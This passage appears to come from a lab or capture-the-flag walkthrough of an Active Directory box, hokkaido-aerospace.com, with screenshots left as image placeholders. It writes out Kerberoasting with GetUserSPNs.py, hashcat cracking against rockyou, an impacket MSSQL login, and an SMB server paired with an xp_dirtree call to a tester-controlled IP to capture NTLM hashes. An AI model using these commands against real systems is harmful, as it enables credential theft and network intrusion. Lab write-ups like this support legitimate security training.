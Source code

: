 ![image.png](image%2026.png)

Nothing found, we don’t have First Degree Object Privileges, or cannot reach high value targets.

**Kerberoasting**

```bash
GetUserSPNs.py -dc-ip $IP hokkaido-aerospace.com/discovery -request
```

![image.png](image%2027.png)

```bash
hashcat -m 13100 main.hash /usr/share/wordlists/rockyou.txt
```

![image.png](image%2028.png)

Let’s connect to `MSSQL` service:

```bash
mssqlclient.py discovery@$IP -windows-auth
```

![image.png](image%2029.png)

There is a non-default database `hrappdb`:

```sql
SELECT * FROM master.dbo.sysdatabases
```

![image.png](image%2030.png)

We cant access the database:

```sql
use hrappdb;
```

![image.png](image%2031.png)

We can’t enable `xp_cmdshell` to run commands:

```sql
enable_xp_cmdshell
```

![image.png](image%2032.png)

Let’s try to capture hashes:

```sql
sudo impacket-smbserver share ./ -smb2support
```

```sql
exec xp_dirtree '\\192.168.45.159\share\', 1, 1
```
